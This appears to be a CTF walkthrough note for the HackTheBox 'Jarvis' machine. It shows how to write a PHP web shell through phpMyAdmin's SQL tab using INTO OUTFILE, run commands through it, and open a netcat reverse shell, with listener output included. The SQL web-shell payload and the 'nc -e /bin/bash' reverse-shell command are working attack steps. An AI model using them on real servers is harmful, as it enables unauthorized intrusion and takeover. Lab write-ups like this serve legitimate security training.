





# phpMyAdmin - Execute code & get a shell
•
https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/ - A great how-to
Using SQL's
into outfile statement and
phpMyAdmin's web interface, we can write a php file to the system and get a reverse shell.
Examples• hackthebox Jarvis
## Get code execution
Pick a table to run SQL queries on.
I chose
jnmxv because it looked like a dummy table. You could pick any.
Select the
SQL tab so that we can run SQL commands.
This SQL statement
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell5000.php"will write a php file called
shell5000.php to the filesystem.
Write your SQL statement into the text box and click
Go to run the SQL query.
You should receive a response saying that the query ran successfully :)
Now to run commands, visit:
http://10.10.10.143/shell5000.php?cmd=<command>For example, to run
id visit:
http://10.10.10.143/shell5000.php?cmd=id## Get a reverse shell
You can get a reverse shell by achieving code execution via the technique above, and then executing a reverse shell command.
For example, start a listener on your attacking machine.
root@gotham:~/ctf/jarvis# nc -lvnp 9001
listening on [any] 9001 ...
And then run
nc <attacker ip> <listening port> -e /bin/bash to execute a reverse shell.
You should receive a shell!
...
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 44036
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$